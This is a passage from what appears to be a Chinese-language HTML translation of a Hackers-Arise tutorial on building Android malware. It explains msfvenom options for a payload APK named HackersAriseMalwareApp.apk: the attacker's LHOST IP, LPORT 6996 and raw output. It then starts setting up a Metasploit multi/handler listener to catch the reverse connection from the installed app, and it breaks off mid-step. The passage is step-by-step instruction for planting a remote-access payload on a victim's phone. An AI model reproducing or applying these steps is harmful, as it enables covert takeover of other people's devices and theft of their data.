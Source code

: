    </strong>
   这个选项可以防止手机进入 “睡眠” 状态
  </p>
  <p class="graf graf--p">
   <strong class="markup--strong markup--p-strong">
    LHOST=192.168.1.101
   </strong>
   这是攻击者的IP地址（Kali）
  </p>
  <p class="graf graf--p">
   <strong class="markup--strong markup--p-strong">
    LPORT =6996
   </strong>
   这是与攻击者通信的端口
  </p>
  <p class="graf graf--p">
   <strong class="markup--strong markup--p-strong">
    -f raw
   </strong>
   这将创建原始格式 (-f)的有效载荷
  </p>
  <p class="graf graf--p">
   <strong class="markup--strong markup--p-strong">
    -o HackersAriseMalwareApp.ap
   </strong>
   k 这是要输出(-o)的应用程序的名称
  </p>
  <p class="graf graf--p">
   请注意，这个输出中会抱怨 “没有选择平台” 和 “没有选择arch”，但msfvenom 很聪明，可以从您选择的有效载荷中知道平台是Android，架构是Dalvik。
  </p>
  <p class="graf graf--p">
   关于如何使用 msfvenom 创建自定义有效载荷的更多内容可以参看
   <a class="markup--anchor markup--p-anchor" data-href="http://www.hackers-arise.com/single-post/2017/07/31/Metasploit-Basics-Part-9-Using-msfvenom-to-Create-Custom-Payloads" href="http://www.hackers-arise.com/single-post/2017/07/31/Metasploit-Basics-Part-9-Using-msfvenom-to-Create-Custom-Payloads" rel="noopener" target="_blank">
    这里的
   </a>
   教程。
  </p>
  <h3 class="graf graf--p">
   <span style="color: #339966;">
    <strong class="markup--strong markup--p-strong">
     步骤4：设置一个 Multi Handler 监听器
    </strong>
   </span>
  </h3>
  <p class="graf graf--p">
   现在您已经构建了嵌入Android有效载荷的.apk，需要在系统上打开一个监听器，当 HackersAriseMalwareApp.apk 安装并执行时，接受来自 HackersAriseMalwareApp.apk 的连接。
  </p>
  <p class="graf graf--p">
   您需要设置一个.rc脚本来自动启动并打开一个监听器以接受攻击者的 Metasploit 的外部连接。如果您已经这样做了，现在可以通过输入以下内容来启动它：
  </p>
  <pre class="graf graf--p">msf &gt; resource handler_http.rc</pre>
  <p class="graf graf--p">
   如果您还没有监听器脚本，可以通过输入以下命令来启动一个监听器：
  </p>
  <pre class="graf graf--p">msf &gt;use exploit/multi/handler
